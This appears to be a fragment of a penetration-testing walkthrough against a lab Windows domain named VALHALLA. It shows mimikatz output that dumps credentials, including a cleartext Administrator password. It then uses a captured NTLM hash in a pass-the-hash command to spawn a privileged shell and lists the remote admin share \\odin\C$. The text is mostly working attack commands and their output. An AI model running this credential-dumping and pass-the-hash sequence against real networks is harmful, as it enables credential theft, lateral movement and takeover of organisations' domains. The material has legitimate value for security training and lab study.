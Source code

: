 			 * Domain   : VALHALLA
			 * Password : (null)
			kerberos :
			 * Username : Administrator
			 * Domain   : VALHALLA.LOCAL
			 * Password : Pass123!
			ssp :
			credman :


use captured hash and spawn a cmd



	mimikatz # sekurlsa::pth /user:administrator /domain:valhalla.local /ntlm:c718f548c75062ada93250db208d3178
	user    : administrator
	domain  : valhalla.local
	program : cmd.exe
	impers. : no
	NTLM    : c718f548c75062ada93250db208d3178
	  |  PID  5992
	  |  TID  5732
	  |  LSA Process is now R/W
	  |  LUID 0 ; 2566096 (00000000:002727d0)
	  \_ msv1_0   - data copy @ 0000028A14C33E00 : OK !
	  \_ kerberos - data copy @ 0000028A14C99C98
	   \_ aes256_hmac       -> null
	   \_ aes128_hmac       -> null
	   \_ rc4_hmac_nt       OK
	   \_ rc4_hmac_old      OK
	   \_ rc4_md4           OK
	   \_ rc4_hmac_nt_exp   OK
	   \_ rc4_hmac_old_exp  OK
	   \_ *Password replace @ 0000028A14D670E8 (24) -> null


check for your privilege


	C:\Windows\system32>dir \\odin\C$
	 Volume in drive \\odin\C$ has no label.
	 Volume Serial Number is 3C56-D664

	 Directory of \\odin\C$

	08/22/2013  06:52 PM    <DIR>          PerfLogs
	08/13/2021  07:37 AM    <DIR>          Program Files
	08/22/2013  06:39 PM    <DIR>          Program Files (x86)
	08/13/2021  07:06 AM    <DIR>          Users
	08/14/2021  12:07 AM    <DIR>          Windows
				   0 File(s)              0 bytes
				   5 Dir(s)  54,546,784,256 bytes free
